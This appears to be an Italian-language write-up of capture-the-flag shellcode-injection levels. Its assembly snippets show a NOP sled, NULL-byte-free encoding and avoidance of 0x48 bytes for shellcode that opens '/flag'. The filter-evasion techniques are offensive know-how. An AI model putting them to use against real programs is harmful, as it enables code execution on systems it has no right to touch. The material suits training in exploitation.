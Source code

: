 # Shellcode Injection

## Spiegazione come risolvere i problemi che richiedono di creare delle shellcode da iniettare all'interno di un' programma

+ Livello 1 prende il codice e lo esegue direttamente. Funziona con **chmod_gpt e open_gpt**.  
Invece shell_gpt, sebbene funzioni attraverso sudo, non funziona con la challenge.

+ Livello 2 impone come restrizione di saltare fino a 2048 byte oltre l'inizio. Soluzione consiste nel inseire un nop sled, ovvero una sequenza di 2048 nop per evitare questo salto.  
Per farlo usiamo l'istruzione assembly .rept <quantità>, nello specifico:

    ```s
    start:
        .rept 2048
            nop
        .endr

        # codice continua qui
        mov rbx, 0x00000067616c662f
    ```

    Funziona con **chmod_gpt e open_gpt**, ma non con shell_gpt.

+ Livello 3 richiede di scrivere una shellcode senza avere NULL byte, ovvero byte 00 nel codice. I byte 00 li troviamo quando facciamo somme su registri a 64 bit con numeri non abbastanza grossi oppure quando carichiamo su un registro a 64 bit /flag lasciando 3 caratteri a 00.  
Per questi due casi ci sono due soluzioni: utilizzare xor per impostare il valore 0, inc per aumentare il valore di un registro di uno e usare registri più piccoli per le somme e i mov.

    ```s
    start:
        # Per ricreare mov rbx, 0x67616c662f usiamo i registri più piccoli e gli shift per creare lo spazio necessario senza lasciare spazi a 00
        xor rbx, rbx
        mov ebx, 0x67616c66; 
        shl rbx, 8; 
        mov bl, 0x2f         

        # Per ricreare mov rax, 2 impostiamo il valore di al invece che di rax poichè il valore è molto piccolo          
        xor rax, rax
        mov al, 2             

        # Per mettere mov rdi, 1 usiamo xor e poi incrementiamo
        xor rdi, rdi
        inc rdi              
    
        # Un altra possibilità è quella di usare rept per ripetere n volte un istruzione (mov r10, 1000)
        xor r10, r10
        .rept 1000
        inc r10                               
        .endr
    ```

+ Livello 4 richiede di non avere byte che in esadecimale formino il 48, ovvero la lettera H, che sono i byte delle istruzioni mov, xor e inc a 64 bit. La soluzione è usare registri a 32 bit oppure usare push e pop nei registri

    ```s
    start:
        # Per passare valori più lunghi, tipo mov rbx, 0x00000067616c662f, dobbiamo pushare una parte sullo stack e poi aggiungere l'altra parte manualmente attraverso la deferenziazione    
        push 0x616c662f
        mov dword ptr [rsp+4], 0x00000067   

        # Per passare un valore numerico, tipo mov r10, 1000 usiamo push e pop
        push 1000
        pop r10
    ```

